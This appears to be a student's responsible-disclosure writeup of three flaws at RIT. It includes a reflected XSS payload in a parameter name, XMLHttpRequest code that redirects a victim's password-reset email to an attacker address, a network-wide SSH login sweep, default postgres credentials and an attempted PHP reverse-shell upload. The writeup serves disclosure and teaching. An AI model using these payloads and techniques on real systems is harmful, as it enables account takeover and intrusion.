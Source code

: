 # How I Gained Access to RIT Student Accounts via XSS (2023)

As a cybersecurity student at RIT, I spent some time testing the security of our university systems.

This post is a writeup of three vulnerabilities I found:

1. A reflected XSS vulnerability in RIT's password reset portal, `start.rit.edu`, that enabled one click account takeover
2. A postgres database with default credentials, accessible by any RIT account
3. An LDAP information disclosure issue that allowed read access to student schedules by any RIT account

All findings were responsibly disclosed to RIT. Thank you to the RIT security team for responding quickly, and taking these issues seriously.

---

## XSS in start.rit.edu and Account Takeover

`start.rit.edu` is a critical internal app at RIT used to manage:

* SSH shell access
* Password resets
* External email settings
* Account details

![image](https://github.com/user-attachments/assets/fce72fb4-b19c-4cbe-9f61-bead68b4bac8)


While exploring the site, I found it was highly verbose in its error messages. Although not visible to the user, the site HTML contained full exception traces with file paths and class names. These stack traces offered insight into how backend logic and input validation were structured.

Example stack trace hidden in HTML:
```Stack trace:
#0 /opt/claws/www/lib/Controller.php(36): InputValidator::sanitizeArray(Array, Array)
#1 /opt/claws/www/public/dispatch.php(229): Controller->sanitize()\n#2 {main}
```

Claws appears to be the internal name of the project that powers `start.rit.edu`, and is also used by RIT Administrators to manage accounts and services.

### The Vulnerability

Eventually, I discovered that if you submitted a request with an unexpected query parameter name, the server reflected the parameter name in an error message without proper encoding.

```
FATAL CLAWS CONDITION: filter not defined for parameter_name<, child of .
```

It appeared that the server was iterating through parameter names, filtering parameter values based on parameter names. When a parameter name was unknown, the access of `filter` wasn't defined and an error was thrown, including the unknown arbitary parameter name.

This meant I could inject JavaScript via the **parameter name** (not parameter value). For example:

```html
start.rit.edu/.../index?<script>eval("\x61\x6c\x65\x72\x74(\"HI\")")</script>=b
```

The payload above is hex-encoded since parameter names with spaces or semicolons were not accepted.

Because the server didn't use a Content Security Policy (CSP), the injected JavaScript executed immediately. 

![image](https://github.com/user-attachments/assets/cf73628a-b510-41e0-ab07-638dd5a32cfd)


### Achieving Account Takeover

Since this was the same portal used for **password resets**, the next step was figuring out how to abuse the XSS to change another user’s reset email address.

After figuring out how their API worked I created a payload that:

1. Used `XMLHttpRequest` to create a `MailPreference` handler
2. Parsed the response to get the form’s submission endpoint.
3. Used `XMLHttpRequest` again to submit a POST request to change the users password reset email

```js
var xhr1 = new XMLHttpRequest();
xhr1.open( "GET", "https://start.rit.edu/MailPreference", false );
xhr1.send( null );
...
// Parse out the handler number
...
var xhr2 = new XMLHttpRequest();
xhr2.open("POST", handler_number, true);
xhr2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded; charset=UTF-8');
xhr2.send("server_select=GOOGLE&RITEDUMAILFORWARD=&RITEDUVANITYNAME=&PUBLISH_SELECT=OFFICIAL&EMAIL=attacker_email%40gmail.com&submit=");
```

### Delivering the Exploit

The full payload was hex-encoded and injected via a parameter name in a URL like:

```
https://start.rit.edu/Me?%3Cscript%3Eeval(%22\x76\x61\x72\x20...</script>=b
```

This link could be sent in a phishing link or embedded in an attacker page.

If the user clicked the link, they would be asked to login if they hadn't already. The login would be through the official RIT SSO, which is typical for many RIT sites. 

Once the user logged in, their session cookie and auto-filled credentials would allow the payload to run.

After the external email was changed, an attacker could reset the victim’s password using the standard flow.

(RIT patched the issue within two days of disclosure.)

---

## RIT archive (default postgres credentials)

Given that RIT setup servers using LDAP, I thought it might be possible for servers to be misconfigured to allow logins for any RIT account (including students).

In order to find any RIT server that might allow student SSH access, I used nmap to scan the entire class B network range at RIT for port 22.

Once I had a list of servers that had port 22 open, I built a custom tool with libssh that would attempt to login with my own credentials. It would then run a few commmands and log the results (`hostname`, `uname -a`, `ls /`, `ls /home/`, etc.)

(After running this against the RIT network, I changed my password in case any honeypot was logging SSH credentials.)  

### SSH access

Collecting the results, I found that 16 servers allowed SSH access with my student credentials. Some of these were unimportant, since they were servers setup for students to complete or upload work, or test servers not running any real services.

Some servers had network mounted storage for university research, but the contents were set to non-readable.

Only a few cases had any real significance, one of which was `digitalarchive.rit.edu`, which had a postgres database exposed internally.

### Digital Archive

Using the `postgres` command I was able to login with credentials `postgres/postgres`. This gave me read/write access to the Digital Archive database.

To verify I had access to the actual site, I created an account and added myself to the "Faculty Senate Minutes" group. I also viewed a small number of database entries.

A very small number of users had password hashes stored in the database. These appeared to be for users external to RIT who could not go through the typical SSO.

### Attempting File Upload attack

The database also included what extensions were allowed to be uploaded per user. By default, users were only allowed PNG, PDF, and a few other formats.

I attempted to gain execution as the main site user by allowing my account to upload arbitary files, and uploading a PHP reverse shell. However the upload directory did not allow execution of scripts.

## LDAP Group Information Disclosure

Some RIT servers are limited to particular classes/majors. For example, `nitron` is only for students taking courses in Software Engineering. Since RIT’s SSH servers use LDAP for authentication, I wondered if they used LDAP groups to store students majors/schedules.

Group membership data is available via the `id` and `getent` commands.

Example output:

```bash
id uid=62744(sjf5462) gid=5003(student) groups=5003(student),...(rit-section-current-csec-559-02-s)...
```

Included in the group list are:

* Course groups (e.g. `rit-course-current-csci-462` which is RIT cryptography)
* Course section groups (e.g. `rit-section-current-phil-102-04` the exact section you are in)
* Discipline affiliations and miscellaneous internal groups

After asking a friend if he was okay with me testing this against his account, I verified that I could see his entire class schedule. To make clear, this kind of access was **not normally available** through standard AD credentials, but was possible in Linux due to how RIT’s servers used a high-privilege AD account for NSS lookups.

Using the `getent` command I could also look up what users were in a given group. This information could be used to:

* Identify students in particular classes or class sections
* Identify users working on internal tools
* Identify users where in certain departments

---

### Conclusion

Thanks once again to the  RIT Information Security team for their professionalism and responsiveness throughout the disclosure process. I'm grateful for their collaboration and for fostering an environment where responsible security research is valued.
